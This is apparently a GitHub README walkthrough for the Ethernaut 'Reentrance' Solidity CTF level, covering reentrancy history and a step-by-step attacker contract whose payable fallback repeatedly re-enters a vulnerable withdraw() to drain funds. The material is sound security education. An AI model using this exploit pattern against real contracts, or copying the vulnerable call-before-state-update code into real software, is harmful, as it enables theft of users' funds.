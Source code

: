 # Ethernaut Walkthrough: Re-entrancy
## Welcome to KweenBirb's 11th installment of Ethernaut walkthroughs! 

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to Reentrance.sol, the 11th challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in the root directory and .sol file in this directory. Let's begin!

In this challenge, Ethernaut instructs us 'to steal all the funds from the contract.' Not at all befitting the white hat hackery we're supposed to be learning! Sometimes you have to learn the hard way, I guess.

## On the history of reentrancy

Reentrance exploits litter the history of programmable blockchains, dating all the way back to the big $60 million DAO hack that happened in 2016. At the time, I recall online forums and communities like reddit being ablaze with misunderstanding and FUD about its implications. Many in the (admittedly, less informed) bitcoin community thought it was the end of Ethereum- despite it having just launched! Here's a great blog post on the DAO hack:

https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/

Other notable hacking incidents involving reentrance hacks affected protocols like Uniswap (2020), Cream Finance (2021), Synthetix (2019), and SpankChain (2018). Thankfully we've learned a lot about smart contract security in the years following and agreed upon a code pattern to defend against it.

## What is reentrancy?

Reentrant exploits are a pattern of code execution that involve two main factors:
1. an external call to an untrustworthy contract
2. an action that is executed before its effect on state is updated

This pattern reappears in many different forms but at the highest, most abstract level those are the two factors that are required. This is because when the external call to an outside contract is made (1.), execution context is handed to that contract! It can then maliciously 're-enter' by injecting ANOTHER call of the same function, which then restarts the process and starts a loop!

However, this vulnerability is blocked if the original contract updates its state with the effect of the external call BEFORE the external call is actually executed. Confused? Let's move on from the abstraction.

## Time to get concrete

Looking over the Ethernaut instance contract, we see that the scenario I just described is present. There's an external call in the withdraw() function that happens 4 lines BEFORE that call's effect on state is updated:

```
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
}
```

This contract is vulnerable to reentrancy! Maybe that's why Ethernaut named it Reentrance. Lol.

Our goal then is to call the withdraw function from our own malicious contract, instigating this call:

```(bool result,) = msg.sender.call{value:_amount}("");```

back to our contract, which will need a payable fallback function to both accept the ether sent and re-enter by initiating another call to the instance's withdraw() function.

To do so, let's begin by implementing the initial call:

```
function steal() public {
    reentrance.withdraw( amount );
}
```

And then implement the fallback function that will continuously re-enter by initiating another withdraw():

```
fallback() external payable {
    reentrance.withdraw( amount );
}
```

Keep in mind that the fallback must be payable as it will be receiving the ether amount (which we will next specify in storage).

That's pretty much it as far as the reentrance exploit goes. Short and sweet, huh?

But wait! We forgot something. Before we can withdraw at all, we need to satisfy the balances[msg.sender] check in the withdraw() function:

```if(balances[msg.sender] >= _amount)```

To do so, we can raise our balance in the instance's storage mapping by giving our contract a way to use the handy deposit() function provided by Ethernaut.

```
function give() public {
    address to = address(this);
    reentrance.donate{ value: amount }(to);
}
```

All that's left before we execute our first reentrance hack is to specify the target and an amount of our choosing to donate and subsequently steal. There are of course many ways to do so but here's an example using an interface and convenient amount, all taken from the Solution.sol contract in this directory:

```
interface Reentrance {
    function donate(address _to) external payable;
    function balanceOf(address _who) external returns (uint);
    function withdraw(uint _amount) external;
}

contract Reenter {
    Reentrance reentrance;
    uint amount = 500000000000000;

    constructor(address $your_ethernaut_instance_here) payable {
        reentrance = Reentrance($your_ethernaut_instance_here);
    }

    // give, steal, and fallback functions 
}
```

Hack away, frens! 
○•○ h00t h00t ○•○
